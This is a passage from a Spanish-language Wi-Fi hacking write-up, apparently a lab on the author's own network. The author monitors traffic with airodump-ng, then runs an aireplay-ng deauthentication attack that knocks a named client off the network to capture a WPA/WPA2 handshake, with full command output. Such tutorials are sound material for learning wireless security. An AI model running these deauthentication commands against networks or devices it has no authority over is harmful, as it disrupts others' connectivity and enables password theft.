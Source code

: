 Este es una de los ataques mas comunes 

Vamos a seguir monitoreando el trafico de la red que creamos

```bash
❯ airodump-ng -c 6 -w Captura --essid MiguelWifi wlan0mon
```

![](/assets/images/hacking-writeup-wifi/webnew.png)

Este es el equipo que quiero expulsar de la red **80:30:49:81:DC:AD** (Estos ataques solo funcionan para **(WPA/WPA2**) de autenticacion **PSK** los de usuario y contraseña son otro tipo de ataque 

Vamos a usar `aireplay-ng`

```bash
❯ aireplay-ng --help | tail -n 13
      --deauth      count : deauthenticate 1 or all stations (-0)
      --fakeauth    delay : fake authentication with AP (-1)
      --interactive       : interactive frame selection (-2)
      --arpreplay         : standard ARP-request replay (-3)
      --chopchop          : decrypt/chopchop WEP packet (-4)
      --fragment          : generates valid keystream   (-5)
      --caffe-latte       : query a client for new IVs  (-6)
      --cfrag             : fragments against a client  (-7)
      --migmode           : attacks WPA migration mode  (-8)
      --test              : tests injection and quality (-9)

      --help              : Displays this usage screen
```

El **-0** nos permite deautenticar una estación de una red inalambrica lo vamos a expulsar para que cuando se vuelva a conectar se genere el **handshake** y lo podamos capturar 

Vamos a emitir 10 paquetes de deautenticacion del punto de acceso

```bash
❯ aireplay-ng -0 15 -e MiguelWifi -c 80:30:49:81:DC:AD wlan0mon
03:21:06  Waiting for beacon frame (ESSID: MiguelWifi) on channel 1
Found BSSID "C6:BF:FD:55:E2:F7" to given ESSID "MiguelWifi".
03:21:07  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [ 0|47 ACKs]
03:21:07  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [38|72 ACKs]
03:21:08  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [63|68 ACKs]
03:21:08  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [61|57 ACKs]
03:21:09  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [70|75 ACKs]
03:21:10  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [61|64 ACKs]
03:21:10  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [61|84 ACKs]
03:21:11  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [61|63 ACKs]
03:21:12  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [61|81 ACKs]
03:21:12  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [58|79 ACKs]
03:21:13  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [63|64 ACKs]
03:21:14  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [42|67 ACKs]
03:21:14  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [60|64 ACKs]
03:21:15  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [47|72 ACKs]
03:21:16  Sending 64 directed DeAuth (code 7). STMAC: [80:30:49:81:DC:AD] [31|75 ACKs]
```
